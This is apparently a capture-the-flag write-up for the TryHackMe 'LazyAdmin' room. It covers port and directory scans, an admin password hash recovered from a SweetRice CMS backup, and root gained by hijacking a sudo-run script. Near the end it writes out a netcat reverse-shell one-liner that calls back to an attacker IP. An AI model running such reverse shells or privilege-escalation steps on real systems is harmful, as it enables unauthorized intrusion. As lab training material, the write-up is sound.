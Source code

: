 #   Tryhackme - LazyAdmin
##  Walkthrough by
```
Shaswata Saha
08-07-2023
5:35PM
```

##  Steps:
1.  Nmap Scan
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-08 08:09 EDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 08:09
Completed NSE at 08:09, 0.00s elapsed
Initiating NSE at 08:09
Completed NSE at 08:09, 0.00s elapsed
Initiating NSE at 08:09
Completed NSE at 08:09, 0.00s elapsed
Initiating Ping Scan at 08:09
Scanning 10.10.96.171 [2 ports]
Completed Ping Scan at 08:09, 0.35s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:09
Completed Parallel DNS resolution of 1 host. at 08:09, 0.20s elapsed
Initiating Connect Scan at 08:09
Scanning 10.10.96.171 [1000 ports]
Discovered open port 80/tcp on 10.10.96.171
Discovered open port 22/tcp on 10.10.96.171
Increasing send delay for 10.10.96.171 from 0 to 5 due to 35 out of 115 dropped probes since last increase.
Increasing send delay for 10.10.96.171 from 5 to 10 due to max_successful_tryno increase to 4
Connect Scan Timing: About 27.47% done; ETC: 08:11 (0:01:22 remaining)
Increasing send delay for 10.10.96.171 from 10 to 20 due to max_successful_tryno increase to 5
Connect Scan Timing: About 56.46% done; ETC: 08:12 (0:01:06 remaining)
Completed Connect Scan at 08:12, 148.80s elapsed (1000 total ports)
Initiating Service scan at 08:12
Scanning 2 services on 10.10.96.171
Completed Service scan at 08:12, 6.88s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.96.171.
Initiating NSE at 08:12
Completed NSE at 08:12, 23.13s elapsed
Initiating NSE at 08:12
Completed NSE at 08:12, 1.23s elapsed
Initiating NSE at 08:12
Completed NSE at 08:12, 0.00s elapsed
Nmap scan report for 10.10.96.171
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 08:12
Completed NSE at 08:12, 0.00s elapsed
Initiating NSE at 08:12
Completed NSE at 08:12, 0.00s elapsed
Initiating NSE at 08:12
Completed NSE at 08:12, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.35 seconds

```

2.  Gobuster scan
```bash
┌──(subhro1530㉿subhro)-[~]
└─$ gobuster dir -u http://10.10.96.171 -w Documents/gobuster-wordlist/dsstorewordlist.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.96.171
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                Documents/gobuster-wordlist/dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/08 08:11:11 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.96.171/content/]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
Progress: 1828 / 1829 (99.95%)
===============================================================
2023/07/08 08:12:33 Finished
===============================================================

```
##  IP change = 10.10.232.113

3.  On gobuster scan inside /contents we went to the link 
```
http://10.10.232.113/content/inc/mysql_backup/
```

4.  After downloading file we get the md5 hash of pwd:
```bash
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',


  "admin" : "manager"
  "passwd" : "42f749ade7f9e195bf475f37a44cafcb" # MD5
  passwd: Password123

```

5.  We also find a login form with a more sophisticated wordlist:
```bash
http://10.10.232.113/content/as/    
```

6.  Now we are logged in...!

7.  We will now upload a file and listen through netcat for reverse shell.

8.  Once we get the reverse shell we will get the user.txt file

9.  For root.txt file we have to follow some steps:

10. Stabilize the shell:
```bash

```

11. We find /home/itguy/backup.pl to be vulnerable.. Then we run sudo -l to see all commands we can run as root.We find that we can run backup.pl as sudo without any password.Sadly we dont have the permissions to edit and write to backup.pl. Now if we cat backup.pl to see the contents inside the file, we find that it is simply running a file called copy.sh which is located in /etc directory.


12. Now if you run the command-

cat /etc/copy.sh you will be able to read what is inside copy.sh and we find that it is a netcat reverse shell.MOREOVER, we have write permission on copy.sh so we can edit and change the script inside it.

HERE IS OUR GAME PLAN! We will put a netcat reverse shell in copy.sh and then run backup.pl as sudo (which in turn will execute copy.sh as root) and give us a reverse shell.

```bash
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.28.202 9999 >/tmp/f" > /etc/copy.sh
```

13. 
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```